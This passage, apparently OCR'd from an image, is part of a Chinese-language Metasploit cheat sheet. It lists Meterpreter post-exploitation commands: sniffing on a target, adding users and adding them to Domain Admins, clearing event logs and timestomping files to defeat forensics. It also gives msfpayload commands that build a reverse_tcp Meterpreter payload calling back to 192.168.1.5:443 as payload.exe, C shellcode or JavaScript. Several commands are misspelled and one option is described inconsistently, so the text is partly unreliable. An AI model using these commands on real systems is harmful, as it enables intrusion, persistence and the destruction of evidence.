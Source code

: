 sniffer_dump interfaceID pcapname

在目标主机上启动嗅探。

sniffer_start interfaceID packet_buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探。

sniffer_stats interfaceID

获取正在实施嗅探网络接口的统计数据

sniffer_stop interfaceID

停止嗅探。

add_user username password -h ip

在远程目标主机上添加一个用户。

add_group_user “Domain Adimins”username -h ip

将用户添加到目标主机的域管理员组中。

clearev

清除目标主机上的日志记录。

timestomp

修改文件属性，例如修改文件的创建时间（反取证调差）。

reboot

重启目标主机。

3.MSFpayload命令

msfpayload -h

MSFpayload 的帮助信息。

msfpayload windows/meterpreter/bind_tcp O

列出所有可用的攻击载荷。

msfpayload windows/metarpreter/bind_tcp O.

列出所有windows/meterpreter/bind_tcp 下攻击载荷的配置项（任何攻击载荷都是可以配置的）。

msfpayload windows/metaerpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X>payload.exe

创建一个metarpreter的reverse_tcp 攻击载荷回连到192.168.1.5的443端口，将其保存为名为payload.exe的windows可执行程序。

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R>payload.ray

与上面生成同样的攻击载荷，到导成原始格式的文件，该文件将在后面的MSFencode中使用。

msfpayload windows/meterpreter/bind_tcp LPORT=443 C>payload.c

与上面生成同样的攻击载荷，但导出成C格式的shellcode。

msfpayload windows/meterpreter/bind_tcp LPORT=443 J>payload.java

导出成以%u编码方式的javaScript语言字符串。

